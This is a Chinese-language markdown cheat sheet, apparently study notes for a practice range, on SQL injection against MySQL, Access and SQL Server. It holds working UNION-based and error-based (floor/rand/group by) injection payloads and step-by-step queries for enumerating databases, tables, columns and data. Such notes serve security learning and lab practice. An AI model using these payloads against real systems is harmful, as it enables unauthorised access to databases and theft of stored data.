


# SQL注入


## MYSQL

### 注意点：

#### （1）使用union select的时候，如果两个表字符编码不一样，会报错：

```
payload：
select * from a where name = 'john' union select 1,concat(schema_name) from information_schema.schemata;

报错：
Illegal mix of collations for operation 'UNION'
```

解决方法：给union select的表一个 hex 然后再 unhex 即可

```
payload：
select * from a where name = 'john' union select 1,unhex(hex(schema_name)) from information_schema.schemata;

回显：
+----+--------------------+
| id | name               |
+----+--------------------+
|  1 | john               |
|  1 | information_schema |
|  1 | mysql              |
|  1 | performance_schema |
|  1 | test               |
+----+--------------------+
```

#### （2）子查询只能返回一行

使用Mysql子查询，需要使用limit 指定返回一行，或者group_content。

```
select * from a where name = 'john' union select 1,(select concat(0x2e,hex(schema_name),0x2e) from information_schema.schemata limit 0,1)

select * from a where name = 'john' union select 1,(select group_concat(0x2e,hex(schema_name),0x2e) from information_schema.schemata)
```


### 报错注入

#### floor + count + group by

```
（1）
select count(*),concat(0x7e,database(),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x;
（2）
select count(*) from information_schema.schemata group by (concat(0x7e,database(),0x7e,floor(rand(0)*2)));
```

**原理：**

首先得对floor、count、group by的作用有所了解。floor为去除小数点式的取整，count为统计，group by 为分组。

rand(0)*2 是为了有一个稳定的序列，如果直接 rand() 的话，是产生随机数的，不稳定。


由于rand是产生介于0 到 1之间的多位小数数字。* 2 是为了能够通过 floor 将数字介于 数组 0 和 1之间：

 

在mysql内部实现时，group by 和count 会产生一个虚拟表，将分组和统计现在虚拟表中整理好，然后再返回来呈现给用户。

正常使用这个功能是没什么问题的，但是外面在字段中使用了 floor(rand(0)*2)，这就出现了问题：


我们可以使用concat，将我们想要显示的东西和floor(rand(0)*2)绑在一起，就可以显示出来了。


还可以用子查询：

```
select count(*) from information_schema.tables group by concat(0x7e,(select schema_name from information_schema.schemata limit 2,1),0x7e,floor(rand(0)*2));
```




## Access

access没有注释符号。。

access的表只能靠猜

字段名：

```
username
passwd
```


## SQL Server

### 基本：

（1）判断是否是sql server：

```
and (select count(*) from sysobjects) > 0
```

（2）查看版本

```
select @@version
```

（3）查看当前数据库

```
select db_name()
```


（4）查看所有数据库

```
select name from master..sysdatabases
```

一个个返回数据库名（sql server没有group_concat好像。。只能一个个返回）

基本语句：

```
select top 1 name from master..sysdatabases where name in (select top 3 name from master..sysdatabases order by name asc) order by name desc
```

**原理：**

子查询获取指定数量的数据，通过top关键字，逐一改变返回数据的最底部的值：


然后再通过外面的语句，使用order by将其倒序，这样拿到的就是可以通过子查询的top关键字改变的值了。

这里子查询需要指定asc，而主查询需要指定和子查询相反的排序。一定要加asc！因为默认不是按asc排序的，默认是按照插入顺序排序的。

union中使用，需要再套多一层子查询，因为主查询中，没有name这个字段，order by不了：

```
union all select NULL,name from master..sysdatabases where name in (select top 1 name from master..sysdatabases where name in (select top 5 name from master..sysdatabases order by name asc) order by name desc)
```


（5）查看所有数据表

```
select name from sysobjects where xtype='U'
```

查看别的数据表名就直接改为： 库名..表名

逐一返回数据表名

```
select top 1 name from sysobjects where name in (select top 3 name from  sysobjects where xtype='U' order by name asc) order by name desc
```

unoin中使用：

```
union all select NULL,name from sysobjects where name in (select top 1 name from sysobjects where name in (select top 4 name from sysobjects where xtype='U' order by name asc) order by name desc)
```


（6）查看所有字段

```
select top 1 col_name(object_id('test..t1'),1) from sysobjects
```

union中使用：

```
union all select top 1 NULL,col_name(object_id('test..t1'),2) from sysobjects
```


（7）查看数据：

```
union all select NULL,name from test..t1 where name in (select top 1 name from test..t1 where name in (select top 3 name from test..t1 order by name asc) order by name desc)
```


### 注意点：

（1）使用union select的时候，最好使用 union all select，具体为啥。。不知道。。**留个坑**。。

墨者的靶场：

https://www.mozhe.cn/bug/detail/90


